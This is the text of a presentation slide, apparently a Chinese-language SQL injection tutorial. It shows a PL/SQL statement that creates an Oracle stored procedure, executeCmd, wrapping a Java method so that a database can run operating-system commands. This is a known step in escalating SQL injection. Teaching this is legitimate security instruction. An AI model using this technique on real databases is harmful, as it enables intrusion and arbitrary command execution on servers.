

# SQL注入
Oracle SQLJ编译执行Java代码：
创建存储过程executeCmd：
create or replace procedure executeCmd(c in varchar2)
as
language java name 'Execute.executeCmd(java.lang.String)';